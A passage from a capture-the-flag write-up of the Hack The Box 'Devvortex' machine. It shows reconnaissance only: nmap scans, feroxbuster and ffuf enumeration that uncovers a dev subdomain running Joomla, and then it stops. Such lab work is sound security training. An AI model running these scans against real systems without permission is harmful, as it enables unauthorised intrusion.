









# Devvortex
## Enumeration
### Port Scanning
The machine has two open ports: 22 and 80
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-27 14:35 EST
Nmap scan report for 10.10.11.242
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.13 seconds

┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ nmap -sC -sV $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-27 14:35 EST
Nmap scan report for 10.10.11.242
Host is up (0.061s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.92 seconds

┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ nmap -p- $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-27 14:53 EST
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.18 seconds

┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ 
```

### HTTP
The website shows the following website:


But we can't find any interesting here. The website seems like static HTML content.

So let's head over to enumeration.
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ feroxbuster --url http://devvortex.htb --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://devvortex.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://devvortex.htb/images => http://devvortex.htb/images/
301      GET        7l       12w      178c http://devvortex.htb/js => http://devvortex.htb/js/
301      GET        7l       12w      178c http://devvortex.htb/css => http://devvortex.htb/css/
200      GET       11l       39w     3419c http://devvortex.htb/images/d-4.png
200      GET       11l       50w     2892c http://devvortex.htb/images/d-1.png
200      GET        5l       23w     1217c http://devvortex.htb/images/location-white.png
200      GET       44l      290w    17183c http://devvortex.htb/images/c-1.png
200      GET        5l       48w     1493c http://devvortex.htb/images/fb.png
200      GET      254l      520w     7603c http://devvortex.htb/do.html
200      GET        5l       12w      847c http://devvortex.htb/images/envelope-white.png
200      GET        7l       30w     2018c http://devvortex.htb/images/d-3.png
200      GET        9l       24w     2405c http://devvortex.htb/images/d-2.png
200      GET      100l      178w     1904c http://devvortex.htb/css/responsive.css
200      GET        6l       52w     1968c http://devvortex.htb/images/twitter.png
200      GET        5l       55w     1797c http://devvortex.htb/images/linkedin.png
200      GET        6l       13w      639c http://devvortex.htb/images/quote.png
200      GET      229l      475w     6845c http://devvortex.htb/portfolio.html
200      GET        3l       10w      667c http://devvortex.htb/images/telephone-white.png
200      GET      231l      545w     7388c http://devvortex.htb/about.html
200      GET        6l       57w     1878c http://devvortex.htb/images/youtube.png
200      GET      289l      573w     8884c http://devvortex.htb/contact.html
200      GET       71l      350w    24351c http://devvortex.htb/images/c-2.png
200      GET       87l      363w    24853c http://devvortex.htb/images/c-3.png
200      GET      714l     1381w    13685c http://devvortex.htb/css/style.css
200      GET      583l     1274w    18048c http://devvortex.htb/index.html
200      GET        2l     1276w    88145c http://devvortex.htb/js/jquery-3.4.1.min.js
200      GET      348l     2369w   178082c http://devvortex.htb/images/map-img.png
200      GET     4440l    10999w   131868c http://devvortex.htb/js/bootstrap.js
200      GET      536l     2364w   201645c http://devvortex.htb/images/who-img.jpg
200      GET      536l     3109w   243112c http://devvortex.htb/images/w-3.png
200      GET      512l     2892w   241721c http://devvortex.htb/images/w-4.png
200      GET    10038l    19587w   192348c http://devvortex.htb/css/bootstrap.css
200      GET      675l     4019w   330600c http://devvortex.htb/images/w-1.png
200      GET      636l     3934w   306731c http://devvortex.htb/images/w-2.png
200      GET      583l     1274w    18048c http://devvortex.htb/
[####################] - 23s   106373/106373  0s      found:35      errors:0      
[####################] - 22s    26584/26584   1217/s  http://devvortex.htb/ 
[####################] - 22s    26584/26584   1231/s  http://devvortex.htb/images/ 
[####################] - 22s    26584/26584   1233/s  http://devvortex.htb/js/ 
[####################] - 22s    26584/26584   1230/s  http://devvortex.htb/css/                                                                                                                                                                                                                                       
┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ 
```

But this also shows nothing interesting.

At this point I got a bit stucked and tried the following steps, but without any findings:
* intercept traffic
* take a look into JavaScript files
* dip into HTML injection
* inspect the used OwlCarousel2 jQuery plugin

After that I went to subdomain and vhost enumeration. And finally I got a hit:
```
┌──(kali㉿kali)-[~]
└─$ curl -s -H "Host: testestestest.devvortex.htb" http://devvortex.htb | wc -c
154

┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

[Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 89ms]
    * FUZZ: dev

:: Progress: [114441/114441] :: Job [1/1] :: 1242 req/sec :: Duration: [0:01:32] :: Errors: 0 ::

┌──(kali㉿kali)-[~]
└─$ 
```

### `dev` Website
`dev.devvortex.htb` shows the following website:


The website itself doesn't show any interesting up, again. So we try to enumerate the directories:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://dev.devvortex.htb --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt --filter-status 404,502

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://dev.devvortex.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 💢  Status Code Filters   │ [404, 502]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       69l      208w     3653c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       10w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://dev.devvortex.htb/cli => http://dev.devvortex.htb/cli/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins => http://dev.devvortex.htb/plugins/
301      GET        7l       12w      178c http://dev.devvortex.htb/layouts => http://dev.devvortex.htb/layouts/
301      GET        7l       12w      178c http://dev.devvortex.htb/modules => http://dev.devvortex.htb/modules/
301      GET        7l       12w      178c http://dev.devvortex.htb/tmp => http://dev.devvortex.htb/tmp/
301      GET        7l       12w      178c http://dev.devvortex.htb/components => http://dev.devvortex.htb/components/
301      GET        7l       12w      178c http://dev.devvortex.htb/libraries => http://dev.devvortex.htb/libraries/
301      GET        7l       12w      178c http://dev.devvortex.htb/cache => http://dev.devvortex.htb/cache/
301      GET        7l       12w      178c http://dev.devvortex.htb/language => http://dev.devvortex.htb/language/
301      GET        7l       12w      178c http://dev.devvortex.htb/includes => http://dev.devvortex.htb/includes/
404      GET        1l        3w       54c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://dev.devvortex.htb/api => http://dev.devvortex.htb/api/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator => http://dev.devvortex.htb/administrator/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/cache => http://dev.devvortex.htb/administrator/cache/
301      GET        7l       12w      178c http://dev.devvortex.htb/api/components => http://dev.devvortex.htb/api/components/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/components => http://dev.devvortex.htb/administrator/components/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/help => http://dev.devvortex.htb/administrator/help/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/includes => http://dev.devvortex.htb/administrator/includes/
301      GET        7l       12w      178c http://dev.devvortex.htb/api/includes => http://dev.devvortex.htb/api/includes/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/language => http://dev.devvortex.htb/administrator/language/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/authentication => http://dev.devvortex.htb/plugins/authentication/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/logs => http://dev.devvortex.htb/administrator/logs/
301      GET        7l       12w      178c http://dev.devvortex.htb/api/language => http://dev.devvortex.htb/api/language/
200      GET        1l        2w       31c http://dev.devvortex.htb/cli/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/captcha => http://dev.devvortex.htb/plugins/captcha/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/modules => http://dev.devvortex.htb/administrator/modules/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/content => http://dev.devvortex.htb/plugins/content/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/editors => http://dev.devvortex.htb/plugins/editors/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/extension => http://dev.devvortex.htb/plugins/extension/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/fields => http://dev.devvortex.htb/plugins/fields/
200      GET        1l        2w       31c http://dev.devvortex.htb/language/index.html
200      GET        1l        2w       31c http://dev.devvortex.htb/plugins/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/images => http://dev.devvortex.htb/images/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/installer => http://dev.devvortex.htb/plugins/installer/
502      GET        7l       12w      166c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator/templates => http://dev.devvortex.htb/administrator/templates/
200      GET        1l        2w       31c http://dev.devvortex.htb/layouts/index.html
200      GET        1l        2w       31c http://dev.devvortex.htb/cache/index.html
200      GET        1l        2w       31c http://dev.devvortex.htb/libraries/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/media => http://dev.devvortex.htb/media/
200      GET        1l        2w       31c http://dev.devvortex.htb/tmp/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/layouts/joomla => http://dev.devvortex.htb/layouts/joomla/
200      GET        1l        2w       31c http://dev.devvortex.htb/modules/index.html
200      GET        1l        2w       31c http://dev.devvortex.htb/components/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/layouts/libraries => http://dev.devvortex.htb/layouts/libraries/
200      GET        1l        2w       31c http://dev.devvortex.htb/includes/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/images/banners => http://dev.devvortex.htb/images/banners/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/privacy => http://dev.devvortex.htb/plugins/privacy/
301      GET        7l       12w      178c http://dev.devvortex.htb/layouts/plugins => http://dev.devvortex.htb/layouts/plugins/
200      GET       29l      105w      764c http://dev.devvortex.htb/robots.txt
301      GET        7l       12w      178c http://dev.devvortex.htb/media/cache => http://dev.devvortex.htb/media/cache/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/system => http://dev.devvortex.htb/plugins/system/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/task => http://dev.devvortex.htb/plugins/task/
301      GET        7l       12w      178c http://dev.devvortex.htb/templates => http://dev.devvortex.htb/templates/
